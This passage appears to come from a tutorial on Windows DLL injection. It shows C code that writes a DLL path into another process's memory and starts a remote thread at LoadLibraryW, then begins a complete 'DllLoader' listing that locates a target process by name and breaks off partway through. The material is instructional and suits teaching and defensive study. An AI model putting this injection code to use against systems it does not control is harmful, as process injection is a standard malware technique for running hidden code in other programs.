 ```jsx
	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	//Step 5: Create a new Thread starting at the LoadLibraryW function address
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] DONE !\n");

_EndOfFunction:
	if (hThread)
		CloseHandle(hThread);
	return bSTATE;
}

```

### Overview

At this point, we have two functions, `GetRemoteProcessHandle` (which performs steps 1 and 2)  `InjectDll` (which performs steps 3, 4 and 5). With a main function that obtains the Dll path and the name of the process, the whole DllLoader code looks like this:

```c
#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>

BOOL GetRemoteProcessHandle(IN LPWSTR szTargetProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess) {

	HANDLE hSnapShot = NULL;
	PROCESSENTRY32	Proc = {
		.dwSize = sizeof(PROCESSENTRY32)
	};

	//Create the snapshot of all processes
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Step 1: Identify the Target process
	if (!Process32First(hSnapShot, &Proc)) {
		printf("[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	//Convert the string to lowercase to avoid comparison problems
	do {
		WCHAR LowerName[MAX_PATH * 2];

		if (Proc.szExeFile) {
			DWORD dwSize = lstrlenW(Proc.szExeFile);
			DWORD i = 0;

			RtlSecureZeroMemory(LowerName, sizeof(LowerName));
```